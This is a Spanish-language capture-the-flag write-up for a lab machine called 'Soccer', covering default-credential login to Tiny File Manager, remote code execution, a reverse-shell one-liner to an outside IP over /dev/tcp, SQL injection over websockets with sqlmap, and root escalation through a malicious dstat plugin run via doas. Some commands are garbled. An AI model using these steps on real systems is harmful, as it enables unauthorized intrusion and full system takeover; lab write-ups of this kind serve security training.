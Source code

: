 ```yaml
---
title: 'CTF - Soccer WriteUp'
date: '2022-12-27'
tags: ["CTF", "Rce", "Suid", "Dstat", "Doas", "Websockets"]
draft: true
authors: ['default']
summary: '![](/static/images/uploads/ctf-soccer-write-up/Soccer.webp)'
---
```


![](/static/images/uploads/ctf-soccer-write-up/Soccer.webp)

Hacer nmap

Hacer wfuzz y encontrar /tiny

![](/static/images/uploads/ctf-soccer-write-up/image.webp)

Ir al repositorio https://github.com/prasathmani/tinyfilemanager y encontrar el siguiente trozo de markdown.

Default username/password: **admin/admin@123** and **user/12345**.


Probarlo y estar dentro.

Puedes subir archivos y ejecutar codigo remoto 

[Tiny File Manager 2.4.6 - Remote Code Execution (RCE)Tiny File Manager 2.4.6 - Remote Code Execution (RCE). CVE-2021-45010CVE-2021-40964 . webapps exploit for PHP platform![](/static/images/uploads/ctf-soccer-write-up/favicon.ico)

Exploit DatabaseFEBIN MON SAJI![](/static/images/uploads/ctf-soccer-write-up/spider-orange.webp)](https://www.exploit-db.com/exploits/50828)Puedo entrar a una shell con el siguiente comando 


```
bash -c "sh -i & /dev/tcp/10.10.14.88/1111 0&1"
```
Mirando en /etc/***nginx***/***sites***-***available***/ vemos un subdominio: http://soc-player.soccer.htb. Es una web donde te puedes registrar y verificar tickets de futbol. 

![](/static/images/uploads/ctf-soccer-write-up/image-1.webp)

La comunicación que hay por debajo es websocket. 

Existe un script https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html que levanta un servidor http, que utilizaremos de proxy con sqlmap para poder realizar sqli directamente.

![](/static/images/uploads/ctf-soccer-write-up/image-2.webp)

Entro por ssh, y busco archivos suid 


```
find \-perm -4000 2/dev/null
```
Encuentro doas


```
player@soccer:/usr/local/bin$ ls -l
-rwsr-xr-x 1 root root 42224 Nov 17 09:09 doas
-rwxr-xr-x 1 root root  2002 Nov 17 09:09 doasedit
-rwxr-xr-x 1 root root  5471 Nov 17 09:09 vidoas
```
El bit SUID activo.

Doas es un comando similar a sudo, capaz de ejecutar comandos desde otro usuario dependiendo su configuración. Su archivo de configuración por defecto está en /etc/doas.conf pero este no es el caso. Mirando el archivo vidoas, observamos los siguiente


```
player@soccer:/usr/local/bin$ cat vidoas | grep conf
# Edit a temporary copy of the doas.conf file and check it for syntax
# errors before installing it as the actual doas.conf file.
DOAS_CONF=/usr/local/etc/doas.conf
...
```
Haciendo un cat en esa ruta, vemos 


```
player@soccer:/usr/local/bin$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
dstat es un comando para ver procesos del sistema. Leyendo MAN, vemos que tiene una carpeta de plugins /usr/local/share/dstat/

Creamos un plugin dentro del directorio. El plugin tiene que seguir la siguiente convención de nombres: dstat\_.py. Por lo que ejecutamos el siguiente comando:


```
echo 'import os; os.system("bash -i")'  dstat_privesc.py
```
Ahora, debemos ejecutar dstat con ayuda de doas, siendo root y pasando el argumento necesario a dstat para que ejecute nuestro plugin. Como se denomina dstat\_privesc, tenemos que ejecutar el siguiente comando


```
doas -u root /usr/bin/dstat --privesc
root@soccer:/usr/local/share/dstat# whoami

# Output
root
```
